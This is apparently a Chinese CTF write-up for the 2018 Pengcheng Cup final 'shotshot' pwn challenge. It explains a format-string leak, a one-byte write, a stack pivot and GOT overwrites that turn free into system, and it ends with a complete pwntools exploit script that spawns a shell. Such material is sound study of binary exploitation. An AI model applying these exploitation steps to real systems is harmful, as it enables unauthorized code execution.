 ```yaml
---
title: 鹏城杯 2018 决赛 day1 shotshot writeup
date: 2018-12-10 21:31:41
tags: [pwn, ctf, "鹏城杯", writeup]
---
```

周四打完xnuca后紧接着打了pcb final。说实话用户体验极差。有关参加鹏城杯决赛的体验，请移步[如何评价天下第一的鹏城杯线下攻防赛？ - 言者850的回答 - 知乎](https://www.zhihu.com/question/305111020/answer/548758534)。这比赛分成两天，两天都是写出了一道的exp，这是第一天shotshot题目的writeup
<!--- more --->
## 题目分析
题目漏洞是@TTX同学找到的。主要有两个。其中`show`函数中

```c
  if ( weapon )
    result = printf(weapon);
```
有个格式化字符串，不过只能leak不能去写栈。

在`dead`函数下
```c
  __isoc99_scanf("%d", &v2);
  *(a1 + v4) = v2;
```
其中，v4是之前`get_id`函数读入的任意值，a1是传入的全局变量，这样就造成了我们能将全局变量后的任意地址写入一个字节。而在写入后，程序的逻辑会去call全局变量后保存的某个地址。这样我们就能有条件地rop了。接下来就是一个短短的rop利用链

首先我们把那个全局变量后的0x20的地方写成`0x400aaf`因为一字节的限制，只能在`0x400a00` ~ `0x400aff`之间跳。我们选择跳到
```
.text:0000000000400AAF                 lea     rax, [rbp+var_40]
.text:0000000000400AB3                 mov     esi, 30h
.text:0000000000400AB8                 mov     rdi, rax
.text:0000000000400ABB                 call    to_read
.text:0000000000400AC0                 lea     rax, [rbp+var_40]
.text:0000000000400AC4                 mov     rsi, rax
.text:0000000000400AC7                 mov     edi, offset aThankYouS ; "Thank you %s\n"
.text:0000000000400ACC                 mov     eax, 0
.text:0000000000400AD1                 call    _printf
.text:0000000000400AD6                 nop
.text:0000000000400AD7                 mov     rax, [rbp+var_8]
.text:0000000000400ADB                 xor     rax, fs:28h
.text:0000000000400AE4                 jz      short locret_400AEB
.text:0000000000400AE6                 call    ___stack_chk_fail
```
然后进入`to_read`函数后，会把`rsp`的值给`rbp`，而此时rsp由于我们直接跳转到`0x400aaf`，没有进行函数进入时到`sub rsp, XX`的操作。所以此时再去读0x30字节就会造成栈溢出。接下来就好办了，将栈布置成如下
* `8*'a'` padding
* `printf_got 的地址 +0x20`
* `0x400aaf` 下一步rop
* `0x18 * 'a'` padding

这样我们完成了第一阶段的rop，利用`leave ret`将rbp指向got表附近，接下来进行第二步rop。和之前利用一样，栈的布局如下
* `system addr` 将free写成system
* `puts addr` 不变
* `0x400eaa` 将chk_fail函数替换成这个，利用`delete`函数，把原来执行`free(weapon)` 替换成执行`system(weapon)`
然后就get shell了。

## 感想
以上是第二版的exp，第一版的exp本地可以，但是远程不行，主要是可能两次执行了system函数，其中第一次无意义第二次才get shell导致了未知错误。第二版就没有问题了。这个rop链对我来说还是有点长的，尤其是一字节的跳转比较难找到地方，做完这题收获蛮大的。

## 脚本
```python
#! /usr/bin/env python2
# Author: 850
from pwn import *
import os


class BASE(object):
    def __init__(self, remote_host, remote_port, local_elf, gdb_script, _remote_libc, _local_libc):
        """
        initial basic paramaters
        """
        self.rhost = remote_host
        self.rport = remote_port
        self.elf_name = local_elf
        self.gdb_scripts = gdb_script
        self.local_libc = _local_libc
        self.remote_libc = _remote_libc
        self.elf = ELF(self.elf_name)
        context(os='linux', log_level='info')
        context(terminal=["xfce4-terminal", "-e"])

    def local_debug(self, gdb_attach):
        """
        debug with GDB
        """
        self.target = process(self.elf_name)
        self.libc = ELF(self.local_libc)
        self.one_gadget_offset = 0xf02a4
        if gdb_attach:
            gdb.attach(self.target, gdbscript=self.gdb_scripts)

    def remote_attack(self,):
        """
        try remote exploit
        """
        self.libc = ELF(self.remote_libc)
        self.one_gadget_offset = 0xf1147
        self.target. remote(self.rhost, self.rport)

    def leak(self, ):
        """
        use fsb to leak libc_start_main
        """
        self.target.sendafter('Your name :','aaa')
        self.target.sendlineafter('5. exit','1')
        self.target.sendlineafter("Input the length of your weapon's name:",'100')
        self.target.sendlineafter('Input the name:','%11$p')
        self.target.sendlineafter('5. exit','2')
        self.target.recvline()
        data =  self.target.recvline()
        return int(data,16)

    def die(self):
        """
        trigger luckynum
        """
        self.target.sendlineafter('5. exit','1')
        self.target.sendlineafter("Input the length of your weapon's name:",'100')
        self.target.sendlineafter('Input the name:','/bin/sh')

        self.target.sendlineafter('5. exit','4')
        self.target.sendlineafter('3. C++','1')
        self.target.sendlineafter('id:','32')

        self.target.sendlineafter('5. exit','4')
        self.target.sendlineafter('3. C++','4')
        self.target.sendlineafter('5. exit','4')
        self.target.sendlineafter('3. C++','4')
        self.target.sendlineafter('5. exit','4')
        self.target.sendlineafter('3. C++','4')

    def run(self,):
        libc_start_main = self.leak() - 243
        print "libc_start_main addr: " + hex(libc_start_main)

        libc_addr = libc_start_main - self.libc.symbols['__libc_start_main']
        print "libc base addr: " + hex(libc_addr)

        self.die()
        to_read = 0x400aaf
        one_gadget_addr = libc_addr + self.one_gadget_offset
        self.target.sendlineafter('luckynum:',str(int(to_read)))

        printf_got = 0x602038
        fake_rbp = printf_got + 0x20

        self.target.send("A"*0x8+ p64(fake_rbp) +p64(0x400aaf) + "a" * 0x18)
        system_addr = libc_addr + self.libc.symbols['system'] 
        puts_addr = libc_addr + self.libc.symbols['puts']

        print "system addr: " + hex(system_addr)
        self.target.send(p64(system_addr) + p64(puts_addr) + p64(0x400eaa))

        self.target.interactive()

solve = BASE(
    remote_host="172.91.0.138",
    remote_port=8084,
    local_elf="./shotshot",
    _remote_libc="./libc.so.6",
    _local_libc="/lib64/libc.so.6",
    gdb_script="b *0x400D60\nb *0x400a7e"
)

solve.local_debug(gdb_attach=False)
# solve.remote_attack()
solve.run()
```

